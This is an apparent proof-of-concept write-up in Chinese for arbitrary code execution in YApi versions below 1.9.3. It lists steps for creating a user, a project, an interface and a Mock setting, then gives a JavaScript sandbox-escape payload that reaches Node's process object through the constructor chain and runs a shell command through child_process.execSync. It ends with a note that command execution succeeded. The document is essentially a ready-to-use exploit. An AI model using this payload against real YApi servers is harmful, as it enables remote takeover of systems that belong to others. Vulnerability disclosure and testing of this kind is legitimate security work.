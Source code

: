 # 任意代码执行
## 影响版本
YApi < 1.9.3  
网站底部有显示版本号，如果没有的话，去assets.js里面看
## POC
1. 首页创建用户
2. 添加项目  
![](img/addProject.png)  
![](img/addProject2.png)  
3. 添加接口  
![](img/addInterface.png)   
![](img/addInterface2.png)  
4. 设置Mock
![](img/setMock.png)  
poc:  
```shell
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child\_process").execSync("whoami").toString()
```
5. 访问Mock地址
![](img/getshell.png)  
命令执行成功
